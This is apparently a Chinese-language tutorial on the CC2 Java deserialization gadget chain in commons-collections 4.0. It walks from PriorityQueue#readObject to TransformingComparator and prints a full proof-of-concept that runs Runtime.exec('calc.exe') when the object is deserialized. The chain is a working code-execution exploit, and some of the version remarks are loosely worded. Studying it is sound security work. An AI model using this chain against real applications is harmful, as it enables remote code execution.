



- [CC2链](#cc2链)
  - [PriorityQueue](#priorityqueue)
    - [PriorityQueue#readObject](#priorityqueuereadobject)
    - [PriorityQueue#heapify](#priorityqueueheapify)
    - [PriorityQueue#siftDown](#priorityqueuesiftdown)
    - [PriorityQueue#siftDownUsingComparator](#priorityqueuesiftdownusingcomparator)
  - [TransformingComparator#compare](#transformingcomparatorcompare)
  - [POC构造](#poc构造)
  - [调用流程图](#调用流程图)
  - [commons-collections 4.1](#commons-collections-41)
# CC2链
条件:  
* commons-collections 4.0
## PriorityQueue
### PriorityQueue#readObject
PriorityQueue类是一个优先队列数据结构,其实现序列化接口并重写了readObject()如下  
  
其中`queue`属性定义如下
  
这两个属性被`transient`修饰,本不会被反序列化,但在其重写的`readObject`中还是手动的反序列化了`queue`.
```java
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();
```
在最后还调用了`heapify`方法.
### PriorityQueue#heapify
`heapify`方法如下

其中当size大于2时会进入`siftDown`方法中
### PriorityQueue#siftDown
  
在`siftDown`中根据`comparator`的有无会进入不同的流程.
### PriorityQueue#siftDownUsingComparator
而在`siftDownUsingComparator`分支中存在这么一处调用`comparator.compare(x, (E) c)`.
  
其调用了`comparator`对象的`compare`方法,而`comparator`在其构造函数中设置如下.
  
## TransformingComparator#compare
在commons-collections中有一个实现了序列化接口和Comparator的类为`TransformingComparator`,其`compare`方法如下  
  
其中调用了`this.transformer.transform`,也就是说当我们指定this.transformer为CC1中`transform`类即可进入`transform`利用链.  
而`this.transformer`属性在其构造函数中设置.
  
## POC构造
首先创建一个`PriorityQueue`对象,其要满足以下几个条件才能正常执行readObject()
* size > 2,利用`PriorityQueue`提供的add方法来添加两个元素.
* comparator要先为空,不然在添加第二个元素时会调用`his.decorated.compare(value1, value2)`,而`ProcessImpl`因为没有实现`Comparable`从而导致序列化时失败,所以需要利用反射在添加完元素后再设置`comparator`的值.

首先生成`transform`利用链,与CC1一样.
```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, null}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc.exe"}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
```
完整POC:
```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, null}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc.exe"}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue queue = new PriorityQueue(2);
        queue.add(1);
        queue.add(2);
        Field comparator = queue.getClass().getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(queue, transformingComparator);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
```
调用栈如下:
  
## 调用流程图 
  
## commons-collections 4.1
commons-collections 4.0之后直接修改了`InvokerTransformer`类,其取消了之前实现的`Serializable`接口,导致序列化失败.
而在commons-collections 4.0之前`PriorityQueue`类还没有实现`Serializable`接口,导致无法利用.